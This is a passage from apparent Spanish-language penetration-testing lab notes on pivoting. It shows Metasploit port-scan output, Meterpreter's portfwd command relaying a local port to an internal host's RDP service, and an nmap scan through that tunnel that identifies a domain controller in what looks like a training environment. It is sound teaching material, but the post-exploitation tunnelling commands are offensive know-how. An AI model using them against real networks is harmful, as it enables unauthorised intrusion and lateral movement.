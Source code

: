 ```bash
[+] 172.16.5.19:          - 172.16.5.19:636 - TCP OPEN
[+] 172.16.5.19:          - 172.16.5.19:3389 - TCP OPEN
[*] 172.16.5.19:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Es recomendable hacer más de un escaneo o incluso sobre el puerto 1000 ir escaneando 1 a 1 los puertos.

### Reenvío de puertos

La funcionalidad de reenvío de puertos está disponible en Meterpreter a través del módulo `portfwd`. Este módulo nos permite establecer un oyente en nuestra máquina atacante. Cuando se reciban paquetes en este puerto designado, Meterpreter se encargará de redirigirlos, a través de la sesión establecida, hacia un host específico en la red 172.16.5.0/24. Primero creamos la retransmisión TCP local.

```bash
msf6 auxiliary(scanner/portscan/tcp) > sessions 16
[*] Starting interaction with 16...

meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
[*] Forward TCP relay created: (local) :3300 -> (remote) 172.16.5.19:3389
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local             Remote        Direction
   -----  -----             ------        ---------
   1      172.16.5.19:3389  0.0.0.0:3300  Forward

1 total active port forwards.
```

Ahora podremos escanear el puerto 3389 por el 3300 de forma local de la siguiente manera:

```bash
┌─[root@kali]─[/home/user/pivoting]
└──╼ nmap -sVC -p3300 localhost  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-18 22:59 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000053s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE       VERSION
3300/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: inlanefreight.local
|   DNS_Computer_Name: DC01.inlanefreight.local
|   Product_Version: 10.0.17763
|_  System_Time: 2023-08-19T03:00:28+00:00
| ssl-cert: Subject: commonName=DC01.inlanefreight.local
| Not valid before: 2023-08-18T01:38:48
|_Not valid after:  2024-02-17T01:38:48
|_ssl-date: 2023-08-19T03:00:30+00:00; +5s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5s, deviation: 0s, median: 4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```